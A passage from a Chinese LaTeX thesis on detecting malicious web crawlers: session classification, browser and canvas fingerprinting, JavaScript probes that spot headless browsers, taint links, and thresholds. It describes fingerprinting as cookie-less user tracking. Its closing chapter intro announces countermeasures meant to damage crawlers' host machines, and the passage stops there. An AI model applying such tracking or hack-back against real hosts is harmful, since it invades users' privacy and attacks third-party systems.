  
\includegraphics[width=0.68\textwidth]{images/gradient_descent.png}
  \caption{session分类错误率梯度下降}
  \label{fig:gradient}
\end{figure}


静态session分类也是在已有的爬虫检测文献中最常使用的方法,但是该方法也存在致命的局限性,在面对使用对抗策略的爬虫面前,该session分类方法无法正常地进行分类,表\ref{tab:static-session}是静态session方法在三种数据集上的分类效果。

\centerline{}
\begin{table}[h]
  \caption{静态session分类效果比较}
  \label{tab:static-session}
  \centering
\begin{tabular}{|p{2cm}<{\centering}|p{5cm}<{\centering}|p{2cm}<{\centering}|p{2cm}<{\centering}|p{2cm}<{\centering}|}
    \hline
     \textbf{数据集编号} &  \textbf{数据特性} &  \textbf{原始session数目} &  \textbf{分类后session数目} &  \textbf{session分类准确率}   \\
    \hline
    a  &  正常用户+普通爬虫 & 100 & 130 & 88\% \\
    \hline
    b  &  恶意漏洞扫描爬虫 & 100 & 291 & 35\% \\
    \hline
     c  & 采用对抗策略的爬虫 & 100 & 472 & 26\% \\
    \hline
    \end{tabular}
\end{table}


不难看出,在存在对抗样本的数据集b以及数据集c上,静态session分类的准确率都大打折扣。但是如果客户端webdriver开启了javascript执行的功能,那么通过引入动态session分类,能够有效地缓解上述的问题。



\subsection{动态session分类}

\subsubsection{浏览器指纹生成算法}

不同用户的浏览器具有不同的特征信息和丰富的数据,网站可以通过在用户访问时通过不同的 API 和技术手段获取浏览器特征信息构建独特的浏览器指纹。浏览器指纹技术能够在无cookie的情况下提供一种追踪用户的鲁棒性方案。
令指纹生成算法为 F(*)。当出现一个新的浏览器信息 x 时,生成一个浏览器指纹 F(x)。该算法遵循离散概率密度函数 P( fn) 。其中,$f_n$ 为某个特征信息的指纹生成结果 ;n$\in$[0,1,…,N],N 为特征信息的个数。对于某单个特征信息的指纹生成结果 $f_n$,使用自信息量 I 表示该浏览器指纹所包含信息的比特数,即:

\begin{equation}
I(F(x)=f_n)=-log_2(P(fn)) 
\end{equation}

当指纹由多个不同的特征信息组合而成时,假设不同特征信息对应的指纹生成算法为 $F_s()$,s$\in$[0,1,…,S ](S 为指纹生成算法的个数),则根据公式(3.3)单独计算每个特征信息的指纹生成结果 $f_n$,s 的自信息量 $I_s(f_n,s)$,并根据公式(3.4)定义指纹组件的信息熵 $H_s(F_s)$。

\begin{equation}
I_s(f_{n,s})=-log_2(P(f_{n,s})) 
\end{equation}
\begin{equation}
H_s(F_s)=-\sum_{n=0}^{N}P(f_s,n)log_2(P(f_s,n)) 
\end{equation}


信息熵表征浏览器所有自信息量的期望值。对于两个相互独立的特征组件,自信息量可直接线性相加。根据自信息量 I 可以确认指纹归属对象的身份。I 包含的若干比特信息中的每一比特信息都能将该浏览器指纹可能的归属集合减半。特征信息进行组合生成指纹,每一个特征信息具有若干比特的信息熵,熵值越大,则越能准确地区分不同的浏览器实体。因此要选取恰当且包含足够比特信息的特征信息集合,通过该特征信息集合生成的指纹能够唯一确认指纹归属对象的身份。



\subsubsection{Canvas 指纹}
Mowery和Shacham提出了通过HTML 5 的 Canvas API以及WebGL渲染文本得到像素差异,作为一种具有高信息熵的浏览器指纹生成方式\upcite{mowery2012pixel}。
canvas元素是html5规范中新增的一类元素,能够在屏幕上可编程地绘制图像,并且被大部分主流的浏览器支持。绘制一个基本的canvas图形的方法相当简单:需要浏览器提供给用户一个图形渲染的环境,使用环境中的API来渲染你对canvas图像的操作和改变。在目前使用的html5规范中,广泛使用的2D环境能提供诸如fillRect, lineTo以及arc这样的一些基本绘图功能。也有一些复杂的功能可以支持贝塞尔曲线,颜色梯度的这样一些功能。Html5通常支持如下的canvas相关的功能:

\begin{itemize}
\item[1)] Canvas Text渲染:给定字体,字体颜色以及位置参数,2D context能够在canvas绘制出任意的文本。
\item[2)] Canvas 像素抽取: 2D context提供了一个getImageData方法,通过该方法能够获取一个给定区域范围内的图片对象,该对象是以图片中的每一个元素的RGBA值组成的。其次,canvas对象本身提供toDataURL方法,当提供一个图片作为该方法的输入后,该方法能够将完整的图片内容以base64编码的形式返回。以上两个方法均严格遵循浏览器同源策略。
\item[3)] WebFront:webFront是定义在CSS3中的规范,允许用户按需加载远程字体,而不是只能依赖于已经安装在本地的字体。在使用这个特性时,需要加入@front-face这样一条规则,并使用src属性指定远程字体资源的url地址。为了使用WebFront,需要开启WebFront Loader函数库。通过使用该函数库,WebFront仅仅通过javascript就能够加载。
 \item[4)] WebGL:WebGL提供了一个javascript的API用于在canvas上绘制图像,目前的主流浏览器都支持WebGL的硬件加速选项,可以使用图形硬件来渲染每一帧,目前WebGL也通过各自的canvas环境暴露出相应的函数接口,类似于OpenGL API,可以使用GLSL(OpenGL Shading Language)编程,在编译后,可以直接运行在硬件显卡上。
 \end{itemize}


\subsubsection{浏览器特定指纹}
ECKERSLEY根据浏览器的环境,通过收集一些网站能够获取的浏览器常用或者不常用的特性,用以生成浏览器的指纹\upcite{eckersley2010unique}。这些特性中有一部分可以通过简单静态的HTTP请求中推断出来,也可以经由AJAX接口收集。特性收集过程中,有一部分特性是简单明了的,但有一部分特性是来源于一些浏览器细节。有些浏览器禁用了javascript,那么他会使用video,plugins,fonts和supercookie的默认值。因此可以通过这一细节来推断出浏览器是否禁用了javascript。我们在研究中使用了如下的常见浏览器特性来产生浏览器指纹:

\begin{itemize}
\item User-Agent
\item 浏览器语言设置
\item 浏览器storage设置 (SessionStorage,LocalStorage,IndexDb)
\item cookie支持
\item 屏幕分辨率
\item timezone
\item 浏览器插件信息
\item 系统字体
\item doNotTrack标识
\item ie activex支持
\item canvas指纹
 \end{itemize}
 
 如表\ref{tab:js-fp}所示,是我们在不同操作系统,不同版本的不同浏览器上根据以上特征使用hash算法生成的128 bit指纹。
 
\centerline{}
\begin{table}[h]
  \caption{不同浏览器指纹比较}
  \label{tab:js-fp}
  \centering
\begin{tabular}{|p{2.5cm}<{\centering}|p{2.5cm}<{\centering}|p{3cm}<{\centering}|p{6cm}<{\centering}|}
    \hline
     \textbf{webdriver名称} &  \textbf{版本} &  \textbf{操作系统} &  \textbf{浏览器指纹}    \\
    \hline
   
chromium & 70.0.3509.0 & ubuntu 16.04 x64 & 1a82cc57a97d7a931a82cc5720de9977 \\
\hline
chromium & 70.0.3514.0 & ubuntu 16.04 x64 & bae33d459368bee9bae33d45b8a2efa1\\
\hline
chromium & 70.0.3519.0 & ubuntu 16.04 x64 & 06a3007b36556ee506a3007bad572654\\
\hline
firefox(headless) & 57 & ubuntu 16.04 x64 & 576d92810cef4933576d9281c52a137b\\
\hline
firefox(headless) & 63 & ubuntu 16.04 x64 & 332ac9f169afb00b332ac9f18b81828d\\
\hline
firefox(headless) & 68 & ubuntu 16.04 x64 & 4cb3ae543ab898494cb3ae54fc189ce4\\
\hline
phantomjs & 1.9.7 & ubuntu 16.04 x64 & 2d15aa2ba520737e2d15aa2b4a84aa17\\
\hline
phantomjs & 1.9.8 & ubuntu 16.04 x64 & 4c83cbcb790af6734c83cbcb8e935880\\
\hline
phantomjs & 2.1.1 & ubuntu 16.04 x64 & ba8506ab17e80837ba8506ab62082282\\
\hline
chrome & 78.0.3904.97 & macos 10.14.4 & 49c81cf7b7d05f9e49c81cf71fce9c5e\\
\hline
safari & 12.1 & macos 10.14.4 & 410160ac93cefc91410160ac72900fc9\\
\hline
firefox & 70.0.1 & macos 10.14.4 & 259295adde33bc05259295ad81fa3bed\\
\hline
chrome & 78.0.3904.84 & ios 12.2 & cef500876945eee2cef50087fadd5d18\\
\hline
    \end{tabular}
\end{table}
\centerline{}

根据Mowery的论文,动态指纹的独特性和熵能够得到保证。因此,在并发流量不太高的情况下,可以将其作为session分类的重要依据,能够得到相当高的准确率。我们将动态指纹加入到我们的相似度计算函数,函数更新后为:

\begin{equation}
score = \frac {W_{ua} * M_{ua} + W_{url} * M_{url} + W_{other} * M_{other} + W_{order} * M_{order} + W_{dynamic} * M_{dynamic}} {C_{field} + 3}
\end{equation}

因为我们使用的动态指纹分类技术需要javascript的支持,原先的数据集a和b并没有记录下相关的信息,因此我们只能使用数据集c来作为评估基于静态/动态指纹的session分类方法的准确性。在动态指纹生成的整个过程,我们首先在请求中捕获没有动态指纹生成、动态指纹过期和动态指纹伪造的请求,针对该类请求发送相应的指纹生成javascript脚本。脚本执行完后,会产生浏览器的特定指纹,并将该指纹返回到服务器,服务器记录该指纹,并作为session分类的重要参考。大致流程如图\ref{fig:fp}所示。


\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/architecture/architecture002.jpeg}
  \caption{浏览器指纹生成流程}
  \label{fig:fp}
\end{figure}

更新我们的算法后,同样使用梯度下降算法求解局部最优的参数组合。最终结果显示,我们在数据集c上的准确率是96.71\%,而静态指纹的session分类算法在数据集c上的准确率仅仅为23.73\%。


\subsection{session检测规则}

结合已有论文中的方法以及我们的具体使用场景,在session检测规则上,我们主要考虑如下特征:

\begin{itemize}
\item[1)] 4xx/5xx 返回状态码的比例:HTTP返回的状态码指示了当前HTTP请求处理结果的状态。最常见的正常返回是200,对应的返回状态是“OK”,在提交登录凭证的时候,也有可能产生一些重定向的返回状态码,如301和302。而出现4xx以及5xx的状态码时,往往是服务器在处理相关请求时出现了错误,或者用户发送的HTTP请求并不是满足HTTP协议的合法请求。在普通的用户使用浏览器访问的情况下,很少会出现这样的状态。而爬虫因其扩张性以及一定的侵略性,则经常会触发此类的错误,尤其是因为访问服务器上不存在的资源而触发“404 not found”的错误。
\item[2)] 某时间段内(如1min)内的最大请求次数:高频率地请求网站的相关资源,从而导致web服务器的带宽资源以及计算资源被大量消耗,是恶意爬虫对网站的主要危害之一,而普通用户的访问往往是达不到很高的请求速率的。因此某段时间内的最大请求频次可以作为一个关键指标,用来衡量一个session是否来自于恶意爬虫。
\item[3)] 请求时间间隔标准差:爬虫的请求频率和次数往往由程序事先定义好,因此从session的角度来看,爬虫的请求时间间隔通常会有很强的规律性,而这些时间间隔的标准差,正是能够反应该规律性显著程度的重要指标。
\item[4)] 请求URL资源不同类型比例:爬虫访问与人类访问相比,更加注重数据的收集和效率,而人类的访问更注重数据的可读性。基于这种假设,我们不难得出结论,爬虫对于web page资源更加偏爱,但是会忽略一部分对于爬虫而言没有意义的样式表文件,字体文件以及javascript文件的加载。基于这种特征,根据session中的URL资源比例分布,能够判定出一部分的爬虫。
\end{itemize}

如表所示\ref{tab:session-features},是从数据集a中抽取了具有代表性的爬虫session以及人类session的特征比较:

\begin{table}[h]
  \caption{典型session特征比较}
  \label{tab:session-features}
  \centering
\begin{tabular}{|p{3cm}<{\centering}|p{3cm}<{\centering}|p{3cm}<{\centering}|p{3cm}<{\centering}|}
    \hline
    \textbf{特征} &  \textbf{人类session} &  \textbf{普通爬虫session} &  \textbf{恶意爬虫session}    \\
    \hline
4xx比例 & 1.6\% & 12.4\%  & 81.7\% \\
\hline
5xx比例 & 0.5\% & 0\% & 2.1\% \\
\hline
最大请求频率 & 5 & 48 & 194 \\
\hline
时间标准差 & 110483 & 15093 & 17178 \\
\hline
page资源比例 & 7.8\% & 54\% & 98.1\% \\

\hline
    \end{tabular}
\end{table}



\section{特殊检测规则}
\subsection{javascript检验}

为了进一步增加爬虫识别的准确率,利用部分爬虫可以执行javascript的特性,我们通过在web服务器返回中注入javascript以收集其动态特征,并将该动态特征用于爬虫识别。
我们主要使用了如下的javascript特征:

\begin{itemize}
\item webrtc支持
\item webgl支持
\item webaudio支持
\item websocket支持
\item 电池状态收集
\item 浏览器插件状态收集
\item alert窗口交互时间
\item 特征函数
\item 窗口大小
\item 鼠标键盘事件
\end{itemize}

我们编写了一个get-dynamic.html使用如上特征用于收集浏览器的动态信息,相关代码位于附录A。我们收集了一部分常用浏览器在常用操作系统上的动态特征如图8所示,其中chromium,firefox(headless),以及PhantomJS是网络爬虫常用的无头浏览器。观察后,我们不难发现爬虫使用的无头浏览器与常见浏览器之间在动态特征上的差异,如图表\ref{fig:dynamic}所示。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=1\textwidth]{images/dynamic_features.png}
  \caption{常见浏览器/无头浏览器动态特征比较}
  \label{fig:dynamic}
\end{figure}

\begin{itemize}
\item[1)] 浏览器插件状态: 大部分主流的浏览器都是支持浏览器插件的,但是无头浏览器大部分不支持浏览器插件。
\item[2)] alert窗口交互时间: 我们在该网页中内置的javascript会通过alert函数触发弹窗。正常情况下,人类关闭该弹窗的时间都在1000ms以上,而爬虫使用的无头浏览器的窗口交互时间普遍在200ms以下,甚至像PhantomJS这类的无头浏览器,直接忽略掉了alert的弹窗。
\item[3)] 窗口大小:一部分无头浏览器(如PhantomJS)为了节省渲染页面时使用的计算资源,直接将windows大小设置为0 x 0,这对于我们正常的用户浏览器而言是不可能存在的情况。
\item[4)] 鼠标键盘事件:在关闭alert窗口的时候,一般会触发一些键盘和鼠标的操作。因此,我们针对document对象的鼠标和键盘事件进行全方位的监听,并且进行计数。可以看到绝大部分的普通浏览器都会存在鼠标和键盘事件,而无头浏览器中除了高版本的chromium会触发鼠标事件之外,其他的浏览器均不会有这样的特性。
\item[5)] 特殊函数: 对于部分特殊的无头浏览器,他们使用的javascript执行器因为其本身的特性,能够支持一些特殊的函数,那么这些特殊函数的存在与否也将被作为对具体爬虫种类的检测的关键特征。\upcite{jueckstock2019visiblev8}。在我们的研究中,我们尝试检测了如表\ref{tab:special-function}所示的函数。
\item[6)] 现代浏览器特性支持:一般而言,为了提供最佳的用户体验,现代浏览器往往支持大量的特殊浏览器功能。相比而言,爬虫则会尽可能降低这些特殊功能的支持以减少相应的性能损耗以及被攻击的可能性。因此,当一个浏览器支持的特性数目少于某一阈值时,我们可以将其判定为爬虫。


\centerline{}
\begin{table}[h]
  \caption{js解释器对应的特殊函数}
  \label{tab:special-function}
  \centering
\begin{tabular}{|p{3cm}<{\centering}|p{8cm}<{\centering}|}
    \hline
    \textbf{js解释器} &   \textbf{特殊函数}   \\
    \hline
PhantomJS &  window.callPhantom || window.\_{}phantom \\
\hline
nodejs & window.Buffer \\
\hline
couchjs & window.emit  \\
\hline
rhino & window.spawn \\
\hline
selenium & window.webdriver \\
\hline
    \end{tabular}
\end{table}

\end{itemize}


为了检验本研究特殊规则的有效性,我们在公网环境下部署了我们的代码。在为期数天的时间窗口中,我们捕获了很多不同类型的爬虫。比较有典型的是抓取到的来自微软必应的爬虫特征信息,如图\ref{fig:bing}所示。


\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/bing_crawler.png}
  \caption{捕获的必应爬虫}
  \label{fig:bing}
\end{figure}


可以看出其window size 为0x0,close time只有1ms并且不存在鼠标键盘行为,因此被判定为爬虫。


\subsection{taint link检验技术}
爬虫和人类在访问同一个页面时,对页面的解析过程存在明显差异。人类对于页面的解读是基于最终的渲染效果的,但是爬虫依赖的通常是基于正则表达式的解析器,但这些解析器所得到的解析结果可能并不会在人类可见的页面中进行渲染。在此,人类和爬虫的这种差异为我们的检测爬虫提供了一种新的途径。

将taint link技术部署在真实环境中时,通过会先在正常的页面中插入污点页面(taint page),污点页面中存在污点链接(taint link),该链接在html渲染时不会显示出来,但可能会被爬虫的link parser所识别,并产生相应的访问请求,我们把存在该类请求的session标记为爬虫。该技术不需要爬虫存在的解析javascript的能力,具有更强的普适性,大致实现流程如图\ref{fig:taint}所示。

\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/architecture/architecture003.jpeg}
  \caption{taint-link技术实现流程}
  \label{fig:taint}
\end{figure}


\section{恶意爬虫检测}

我们已经掌握了通过多种粒度的分析方法来识别爬虫的技术,但是,我们需要遏制与对抗的是恶意爬虫,对于普通爬虫的爬取,我们并不需要过多关注。因此,我们还需要从已经识别出的爬虫中进一步地过滤出恶意爬虫,并将我们的对抗策略用于它们。我们将以下类型的爬虫视为恶意爬虫:
\begin{itemize}
\item 带有攻击载荷的爬虫
\item 访问频率过快的爬虫
\item 爬虫触发了过多的错误(400错误,404错误,500错误等)
\end{itemize}

对使用了恶意攻击载荷的访问,我们一律将其视为具有攻击性和威胁性的恶意爬虫。在对访问频率过快的爬虫的定义上,参考的是人工设定的阈值,我们可以根据服务器具体的带宽和一般用户的平均访问频率,来设定最大访问频率以限制恶意爬虫。除此之外,爬虫的错误触发这一条规则,需要设定允许爬虫触发的最大错误数目,一旦触发的错误返回数目超过给定的阈值,则标记为恶意爬虫。

需要注意的是,恶意爬虫与普通爬虫的阈值并非一成不变的,相反,在不同的web服务上,甚至在同一web服务的不同时期,都会根据服务器具体负载,有着不同的取值。但在一般情况下,在保证正常web服务不受影响的前提下,我们会尽可能提高相应的阈值来降低错误识别的带来的影响。


\section{小结}
恶意爬虫检测技术是本研究的关键技术,只有准确地识别出恶意爬虫及其相信息,我们的恶意爬虫对抗技术才能实现精准的打击。传统的爬虫检测技术主要集中于单粒度检测,在session粒度上的检测技术因为实时性问题,以及session分类不准确的重大缺陷,无法针对恶意爬虫实现精确地识别。本章节提出的爬虫检测技术,充分利用了session的静态信息与动态信息,实现对session的准确分类,并分别从单粒度和session粒度进行爬虫检测,以及利用特殊的javascript特性以及taint link技术,进一步准确地定位爬虫种类以及爬虫使用webdriver的类型,从而指导爬虫对抗技术的成攻击载荷的生成。最后还使用一些启发式的算法,人工设定一些阈值,用于区分普通爬虫和恶意爬虫,这些阈值在不同的web服务器环境下会有不同的取值。


\chapter{恶意爬虫对抗技术研究}

在面对恶意爬虫的扫描和访问时,传统的阻断手段单一且固定。通常采取基于IP阻断或者返回垃圾数据等手段,在某种程度上,这些手段的确可以保护本网站在某时间段内免受爬虫骚扰,但是,爬虫技术与反爬虫技术本质上是相互对抗的技术,一旦恶意爬虫作者发现网站的防护并采用相关的对抗策略,那么相应网站又会重新受到恶意爬虫的威胁。因此,我们需要更加主动的对抗技术,能够干扰爬虫的运行,甚至破坏爬虫所在宿主机的对抗技术,用以震慑恶意爬虫及其作者。本章内容将从三种不同的对抗策略入手,介绍本研究使用的恶意爬虫对抗技术。

\section{资源耗尽型对抗技术}
